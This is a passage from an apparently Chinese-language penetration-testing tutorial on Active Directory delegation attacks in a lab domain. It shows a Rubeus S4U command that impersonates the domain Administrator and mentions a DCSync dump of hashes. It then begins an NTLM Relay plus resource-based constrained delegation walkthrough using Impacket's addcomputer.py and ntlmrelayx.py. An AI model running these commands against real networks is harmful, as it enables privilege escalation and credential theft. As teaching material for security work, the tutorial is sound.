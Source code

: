 ![](https://whoamianony.oss-cn-beijing.aliyuncs.com/img/image-20220331220856516.png)

（3)然后执行以下命令，使用 S4U2Self 扩展代表域管理员 Administrator 请求针对域控 LDAP 服务的票据，并将得到的票据传递到内存中，执行结果如下图所示。

```console
C:\Users\Marcus\Desktop> Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:LDAP/DC01.pentest.com /dc:DC01.pentest.com /ptt /ticket:<Base64EncodedTicket>
```

![](https://whoamianony.oss-cn-beijing.aliyuncs.com/img/UQ7epNm1h8nzDVE.png)
![](https://whoamianony.oss-cn-beijing.aliyuncs.com/img/iMS6EJnGm3HZAew.png)

（4）此时执行 DCSync，可以成功导出域内用户哈希，如下图所示。

![](https://whoamianony.oss-cn-beijing.aliyuncs.com/img/image-20220331190944631.png)
### NTLM Relay + RBCD

前面我们介绍了基于资源的约束性委派的一般利用过程，一个很关键的条件就是当前所控的用户必须对 Service 2 拥有 GenericAll、GenericWrite、WriteProperty 或 WriteDacl 等权限，否则将无法修改并设置其 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性。然而，在 NTLM Relay 中，通过 Relay To LDAP 可以直接修改活动目录中的属性值，如果我们控制一个机器账户通过 NTLM Relay 认证到 LDAP，毫无疑问该机器账户能够直接修改并设置自己的 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性。

下面我对 NTLM Relay 结合 RBCD 的攻击过程进行演示，测试环境如下，并假设已经获取到了 Marcus 用户的凭据。

- 域：pentest.com
- 域控制器
  - 主机名：DC01
  - IP 地址：172.26.10.11
- 域内服务器
  - 主机名：WIN2016-WEB1
  - IP 地址：172.26.10.13
- 域管理员用户：Administrator
- 普通用户：Marcus
- Kali Linux 
  - IP 地址：172.26.10.134

（1）首先，通过 [Impacket](https://github.com/SecureAuthCorp/impacket) 套件中的 addcomputer.py 工具，以普通域用户 Marcus 的身份在域中添加一个名为 PENTEST$ 的机器账户，密码为 Passw0rd，相关命令如下，执行结果如下图所示。

```bash
python3 addcomputer.py pentest.com/Marcus:Marcus\@123 -computer-name PENTEST\$ -computer-pass Passw0rd -dc-ip 172.26.10.11

# -computer-name 指定要创建的机器账户名
# -computer-pass 指定要创建的机器账户密码
```

![](https://whoamianony.oss-cn-beijing.aliyuncs.com/img/jPNMZJx4pKHzU7f.png)

（2)执行以下命令，在 Kali Linux 上启动 ntlmrelayx.py 监听，如图下所示。

```bash
python3 ntlmrelayx.py -t ldap://172.26.10.11 --remove-mic --delegate-access --escalate-user PENTEST\$ -smb2support
```
